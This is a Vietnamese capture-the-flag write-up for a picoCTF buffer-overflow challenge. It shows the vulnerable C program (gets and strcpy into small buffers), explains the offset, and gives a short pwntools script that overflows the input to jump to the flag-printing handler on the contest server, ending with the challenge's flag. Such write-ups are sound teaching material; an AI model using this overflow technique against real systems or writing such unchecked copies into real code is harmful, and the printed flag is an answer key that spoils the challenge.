





**#1. Tìm lỗi**
   Ta có file source như sau:

`#include <stdio.h>`
`#include <stdlib.h>`
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **aragv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}`

   Đọc qua file source thì ta thấy có câu lệnh gets và hàm sigsegv_handler(hàm lấy flag) -> Nghĩ ngay đến lỗi bof
   Sử dụng lệnh 'checksec' thì ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof
   

**2. Ý tưởng**

   Chúng ta sẽ nhập tràn biến buf1 nhờ lệnh gets đến ret rồi chèn địa chỉ hàm sigsegv_handler vào

**3. Viết script**

   Sử dụng lệnh 'file' kiểm tra file thực thi
   
   Ta thấy là file 32bit
   
   Địa chỉ hiện tại của buf1 là: ebp - 0x74 -> Khoảng cách từ buf1 đến ret là: 0x74 + 0x4 = 120
   
   Ta có địa chỉ hàm sigsegv_handler là: 0x5655630d
   Vậy ta có script như sau: 

`from pwn import *

r = remote("saturn.picoctf.net", 65355)

payload = b'a'*120 + p32(0x5655630d)
r.sendline(payload)
r.interactive()`

**4. Lấy flag**

   
   Flag: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
